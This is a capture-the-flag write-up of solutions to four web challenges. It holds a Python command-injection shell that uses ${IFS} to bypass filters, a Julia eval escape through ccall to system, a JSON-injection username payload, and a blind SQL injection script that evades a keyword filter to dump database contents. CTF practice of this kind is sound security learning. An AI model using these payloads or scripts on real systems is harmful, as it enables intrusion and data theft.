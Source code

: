 ## Destiny (140pts)
1. Command Injection, replace `%20` with `${IFS}`
```
import requests as req
from bs4 import *

def main(cmd):
    cmd = cmd.replace(" ", "${IFS}")
    x = 1    
    while True:
        res = req.post("http://103.41.207.206:13005/who", data={'domain':"|" + cmd + "|head${IFS}-n${IFS}"+ str(x) + "|tail${IFS}-n${IFS}1"}).text
        # print(cmd + "|head${IFS}-n${IFS}"+ str(x) + "|tail${IFS}-n${IFS}1")
        bs_curr = BeautifulSoup(res, 'html.parser').find("input").get("placeholder")
        c = 0
        print(bs_curr)
        for y in range(1, 6):
            next_res = req.post("http://103.41.207.206:13005/who", data={'domain':"|" + cmd + "|head${IFS}-n${IFS}"+ str(x+y) + "|tail${IFS}-n${IFS}1"}).text
            bs_next = BeautifulSoup(next_res, 'html.parser').find("input").get("placeholder")
            
            if bs_next == bs_curr:
                c += 1
            if c == 5:
                return 1        
        x += 1
    
if __name__ == '__main__':
    while True:
        main(input("$> "))
```

## Jinnytty (440pts)
1. Seems like `eval` application
2. Application written with julia language
3. use `ccall` to execute shell
4. `first(walkdir("."))` for enumerating directory
4. `ccall(:system, String, (Cstring,), "cat add_a_little_difficulty_by_renaming_flag_dot_txt_to_this_gibberish > /tmp/\$(cat add_a_little_difficulty_by_renaming_flag_dot_txt_to_this_gibberish)")` for creating a file with the value of flag.
5. `first(walkdir("/tmp"))` for getting the flag

## TodayManjGang (420pts)
1. found snippet source code in images
2. its JSON injection, then we replacing the value of `touman_leader` to `1`
3. set username to ``nyxsorcerer\",\"touman_leader\":\"1``

## Fakeuser (177pts)
1. SQL Injection with some of filter
`or and union admin where >< ; --`
2. alternative 
`or -> ||`
3. Use scripting for Blind SQL Injection

exp.py
```
import requests as req
import string

s = string.printable[:-6].replace("'", "").replace('"', '').replace("\\", '').replace("%", "")

'''
Sorry if its really mess and buggy >_<
'''

def table_column():
    count_row = 0
    while True:
        found, count_char = 1, 1
        val, st, tmp = "", "", ""
        while True:
            for st in s:
                tmp = val + st
                pay = f"'||left((select concat(column_name,0x3a,table_name) from information_schema.columns limit {count_row},1),{count_char})=binary '{tmp}'||'"
                r = req.post("http://103.41.207.206:13003/", data={"username":"", "password":f"{pay}", "submit":"Login"}).text
                # print(pay)
                if len(r) > 29:
                    val += st
                    found = 1
                    print(val)
                    break
                c = 0
                for x in range(1, 4):
                    pay = f"'||left((select concat(column_name,0x3a,table_name) from information_schema.columns limit {count_row},1),{count_char+x})=binary '{tmp}'||'"
                    r_n = r = req.post("http://103.41.207.206:13003/", data={"username":"", "password":f"{pay}", "submit":"Login"}).text
                    if r_n == r:
                        c += 1
                    if c == 3:
                        found = 0
            if found == 0:
                print("change row")
                count_row += 1
                break
            count_char += 1

def data(table, column):
    count_row = 1
    while True:
        found, count_char = 1, 1
        val, st, tmp = "", "", ""
        while True:
            for st in s:
                tmp = val + st
                pay = f"'||left((select {column} from {table} limit {count_row},1),{count_char})=binary '{tmp}'||'"
                r = req.post("http://103.41.207.206:13003/", data={"username":"", "password":f"{pay}", "submit":"Login"}).text
                # print(pay)
                if len(r) > 29:
                    val += st
                    found = 1
                    print(val)
                    break
                c = 0
                for x in range(1, 4):
                    pay = f"'||left((select {column} from {table} limit {count_row},1),{count_char+x})=binary '{tmp}'||'"
                    r_n = r = req.post("http://103.41.207.206:13003/", data={"username":"", "password":f"{pay}", "submit":"Login"}).text
                    if r_n == r:
                        c += 1
                    if c == 3:
                        found = 0
            if found == 0:
                print("change row")
                count_row += 1
                break
            count_char += 1

if __name__ == '__main__':
    # table_column()
    data("user", "secretdata")
```
